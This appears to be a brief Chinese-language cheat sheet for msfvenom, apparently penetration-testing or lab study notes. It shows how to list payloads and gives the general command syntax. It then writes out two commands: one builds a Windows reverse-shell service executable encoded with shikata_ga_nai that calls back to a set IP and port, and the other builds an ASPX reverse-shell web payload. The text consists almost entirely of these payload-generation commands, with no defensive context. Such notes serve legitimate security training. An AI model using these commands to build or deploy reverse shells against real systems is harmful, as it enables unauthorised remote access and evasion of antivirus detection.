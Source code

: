 

**列出payload**：  
```bash
msfvenom -l payloads
```
### 用法：  

```bash
msfvenom -p <payload> LHOST=<本地IP> LPORT=<监听端口> -f <文件类型> -o <文件名>
```

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.239.167 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```


```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f aspx -o  reverse-shell.aspx
```


